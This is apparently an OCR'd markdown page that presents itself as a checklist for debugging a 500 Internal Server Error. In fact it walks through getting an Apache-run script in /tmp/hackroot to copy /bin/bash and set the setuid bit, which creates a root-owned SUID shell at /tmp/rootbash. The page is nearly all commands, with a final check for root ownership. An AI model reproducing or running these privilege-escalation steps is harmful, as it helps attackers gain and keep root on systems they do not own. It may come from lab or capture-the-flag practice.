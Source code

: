 
## ❌ Getting 500 Internal Server Error? Here’s How to Debug

### ✅ Checklist:

#### 1. **Check script syntax**

```bash
cat /tmp/hackroot/shell.sh
```

Should show:

```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

#### 2. **Ensure it’s executable**

```bash
chmod +x /tmp/hackroot/shell.sh
```

#### 3. **Set correct directory and file permissions**

Apache must be able to access and execute the script:

```bash
chmod 755 /tmp/hackroot
chmod 755 /tmp/hackroot/shell.sh
```

#### 4. **Check the error log**

View the log file to understand why it failed:

```bash
cat /tmp/hackroot/logs/error_log
```

Look for:

- `Permission denied`
    
- `command not found`
    
- `Script not found or unable to stat`
    

#### 5. **Test the script manually**

Run it outside Apache to make sure it works:

```bash
/tmp/hackroot/shell.sh
ls -l /tmp/rootbash  # Should show `-rwsr-xr-x` and owned by root
```

---